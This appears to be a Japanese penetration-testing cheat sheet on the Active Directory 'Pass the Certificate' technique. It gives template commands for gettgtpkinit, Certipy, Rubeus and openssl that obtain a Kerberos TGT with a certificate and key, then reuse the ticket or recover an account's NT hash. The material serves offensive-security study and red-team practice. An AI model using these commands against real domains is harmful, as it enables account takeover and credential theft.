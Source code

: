 # Pass the Certificate

Kerberos認証プロトコルは、アクセスを許可するためにチケットを使用する。ST（Service Ticket）は、TGT（Ticket Granting Ticket）を提示することで取得できる。その前のTGTは、「事前認証」と呼ばれる最初のステップを検証することによってのみ取得できる（ただし、一部のアカウントでその要件が明示的に削除されている場合は、[ASREProast]()に対して脆弱になる）。事前認証は、対称的に(DES、RC4、AES128、またはAES256鍵で)検証することも、 非対称的に(証明書で)検証することもできる。非対称的な事前認証の方法は、PKINITと呼ばれる。

Pass the Certificateとは、TGT を取得するためにパスする証明書（鍵ペア）に依存する事前認証操作に付けられる仮の名前である。この操作は、[Shadow Credentials](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Shadow%20Credentials.md)、[AD CS Domain Escalation](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Certificate%20Service%20(AD-CS)/AD%20CS%20Domain%20Escalation.md)、[UnPAC-The-Hash](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/UnPAC%20The%20Hash.md)とともによく実行される。

「証明書 + 秘密鍵」のペアは通常、次のように使用される

- PEM 証明書 + PEM 秘密鍵
- PFX 証明書のエクスポート (秘密鍵を含む) + PFX パスワード (PFX 証明書のエクスポートを保護する)

## Pass-The-Certificate

### Linux

#### PKINITools (gettgtpkinit.py)

PFX 証明書 (ファイル) + パスワード (文字列、オプション)

```
gettgtpkinit -cert-pfx <PATH_TO_PFX_CERT> -pfx-pass <CERT_PASSWORD> <DOMAIN>/<TargetUser> <TGT_CCAHE_FILE>
```

Base64 エンコードされた PFX 証明書 (文字列) (パスワードを設定できる)

```
gettgtpkinit -pfx-base64 $(cat <PATH_TO_B64_PFX_CERT>) <DOMAIN>/<TargetUser> <TGT_CCAHE_FILE>
```

PEM 証明書 (ファイル) + PEM 秘密鍵 (ファイル)

```
gettgtpkinit.py -cert-pem <PATH_TO_PEM_CERT> -key-pem <PATH_TO_PEM_KEY> <DOMAIN>/<TargetUser>" "TGT_CCACHE_FILE"
```

#### Certipy

Certipy のコマンドは、パスワード付きの PFX をサポートしていません。次のコマンドを使用して、PFX ファイルを「保護解除」できる

```
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out "unprotected.pfx"
```

#### 取得したチケットを悪用

取得したチケットは、次の目的で使用できる

- [Pass-The-Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md)
- [UnPAC-the-hash](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/UnPAC%20The%20Hash.md) (PKINITtools  getnthash.py )

Pass-the-Certificate に Certipy を使用すると、取得した TGT を保存するだけでなく、自動的に [UnPAC-the-hash](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/UnPAC%20The%20Hash.md) を実行してアカウントの NT ハッシュを復元できる

### Windows

#### Rubeus

```
Rubeus.exe asktgt /user:<TargetUser> /certificate:<BASE64_CERTIFICATE> /password:<CERTIFICATE_PASSWORD> /domain:<DOMAIN> /dc:<DC_DOMAIN>" /show
```

PEM 証明書は openssl を使用して PFX 形式にエクスポートできます。Rubeus は PEM 証明書を処理しない

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```

Certipy は DER 暗号化を使用します。Rubeus の PFX を生成するには、openssl を使用する

```
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```

#### 取得したチケットを悪用

取得したチケットは、次の目的で使用できる

- [Pass-The-Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Ticket.md)

- [UnPAC-The-Hash](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/UnPAC%20The%20Hash.md) 攻撃の実行 (Rubeus の asktgt コマンドに /getcredentials フラグを追加)